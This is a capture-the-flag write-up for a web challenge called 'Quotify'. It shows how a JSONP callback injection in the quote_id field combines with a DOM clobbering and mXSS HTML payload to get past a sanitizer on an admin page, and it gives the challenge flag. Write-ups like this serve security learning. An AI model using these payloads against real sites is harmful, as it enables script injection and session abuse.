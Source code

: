 # Quotify

The website seems to generate quotes on clicking the `get quote` button. Inspecting the source code, we see that it actually calls a `callback` function to get the quote from the server using a `JSONP` route.

![jsonp image](./images/Screenshot%20from%202023-03-01%2001-06-21.png)

Trying different values of `feedback` and `id`, we see that some restrictions are applied on feedback.

The question also gives the `source code` of the admin page, from which we see how our `feeback `and `quote_id` is displayed to the admin.
```html
<body>
    <!-- Get user feedback and quote_id from server and display it here for admin -->
    <div class="feedback"></div> <!-- const clean = purify.sanitize(feedback, {FORBID_TAGS: ['math']) -->
    <div class="quote_id"></div>
</body>
```

The source code of the admin page also shows us that to get the `flag`, we need to call the function `sus` and set `document.cookie.has_flag == true` and
`FRUITS.bananas == true`.
```js
window.FRUITS = window.FRUITS || {
        bananas: false,
        apples: false,
        oranges: false
    } 
    
    function sus(info){
        if(document.cookie.has_flag){
            console.log("Hmmmmm");  
            if(FRUITS.bananas) {
                console.log("Got flag woohooo. Pretty simple right?");
            }
        }
    }
```


We can achieve this by exploiting `JSONP` vulnerability, `mXSS` and `DOM Clobbering`.

Let the challenge URL be `{URL}`

First, we can call the function `sus` by passing `quote_id` as `1?callback=sus#` which will load the script with `src = '{URL}/quotes/1?callback=sus#?callback=formatQuote'`, making the part of the url after the `#` useless, hence calling `sus` function with arguments as json object of a `quote`.

Next we can put the following payload to exploit the `DOM Clobbering` and `mXSS` vulnerability.
 ```html
    <form name="cookie"> 
    <input id="has_flag">
    <a name="bananas" id="FRUITS">
    <p>
    <a>
```
Thus, we get the flag `p_ctf{mx55_w17h_d0m_cl08ber1n6_i5_wi1d}`
